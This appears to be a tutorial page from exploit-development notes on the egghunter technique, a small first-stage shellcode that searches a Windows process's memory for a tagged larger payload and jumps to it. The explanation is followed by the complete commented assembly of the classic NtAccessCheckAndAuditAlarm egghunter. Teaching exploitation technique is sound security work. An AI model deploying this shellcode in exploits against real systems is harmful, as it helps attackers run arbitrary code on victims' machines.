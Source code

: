 ## General Information

In some cases, a vulnerability only provides us with a very small buffer that we can use after a memory corruption. 
In such cases, it can be difficult for the attacker to reliably position a larger payload at a predictable location in memory.

Sometimes, depending on the vulnerability or application, it's possible to store a larger payload somewhere else in the address space of the process. 
In a situation like this, the egghunter technique may be an effective exploitation methodology.


In other words, if we can store a second, larger buffer elsewhere, we can use our current, smaller buffer space to write a `stage one` shellcode.
The purpose of this shellcode would be to redirect the execution flow to that second buffer, where we will have more space to store a larger payload.

To determine what will be stored in memory by our vulnerable application, we could either perform a very in-depth reverse engineering process on the application, which is out of the scope of this module, or we could make some educated guesses based on the type of application we are attacking.

## The Egghunter Approach

- http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

When we need to find the memory address of another buffer under our control that is not static, we often use an `Egghunter`.
This term refers to a small first-stage payload that can search the process virtual address space (`VAS`) for an `egg`, a unique tag that prepends the payload we want to execute. 
Once the `eg`g is found, the `egghunter` transfers the execution to the final shellcode by jumping to the found address. 
One of the first implementations of this technique can be found in a paper written by Matt Miller in 2004.

Since `egghunters` are often used when dealing with space restrictions, they are written to be as small as possible. Additionally, the speed of the `egghunter` is essential; the faster the `egghunter` finds the unique tag, the less time the application will hang.

These type of payloads also need to be robust and handle access violations that are raised while scanning the virtual address space. 
The access violations usually occur while attempting to access an unmapped memory address or addresses we don't have access to.

In the past, we would typically write the assembly code for our egghunter and then proceed to compile the code. After, we would disassemble the compiled binary in software such as IDA to get the opcodes for it.
Fortunately, we have a better alternative.

## Egghunter Code

The original egghunter code is as follows. It searches the memory space for the egg using the `NtAccessCheckAndAuditAlarm` system call, puts the found memory address into the `edi` register and then jumps to it. It uses a hardcoded system call though, so be careful with that.

You can generate opcodes from this instructions using the [keystone engine](https://www.keystone-engine.org/).

```text
# We use the edx register as a memory page counter

loop_inc_page:
    
    # Go to the last address in the memory page
    or dx, 0x0fff;
loop_inc_one:
    
    # Increase the memory counter by one
    inc edx;
loop_check:
    
    # Save the edx register which holds our memory 
    # address on the stack
    push edx;
    
    # Push the system call number
    push 0x2;
    
    # Initialize the call to NtAccessCheckAndAuditAlarm
    pop eax;
    
    # Perform the system call
    int 0x2e;
    
    # Check for access violation, 0xc0000005
    # (ACCESS_VIOLATION)
    cmp al,05;

    # Restore the edx register to check later
    # for our egg
    pop edx;
loop_check_valid:
    
    # If access violation encountered, go to n
    # ext page
    je loop_inc_page;
is_egg:
    
    # Load egg (w00t in this example) into
    # the eax register
    mov eax, 0x74303077	;
    
    # Initializes pointer with current checked
    # address
    mov edi, edx;
    
    # Compare eax with doubleword at edi and
    # set status flags
    scasd;
    
    # No match, we will increase our memory
    # counter by one
    jnz loop_inc_one;
    
    # First part of the egg detected, check for
    # the second part
    scasd;
    
    # No match, we found just a location
    # with half an egg
    jnz loop_inc_one;
matched:
    
    # The edi register points to the first
    # byte of our buffer, we can jump to it
    jmp edi;
```

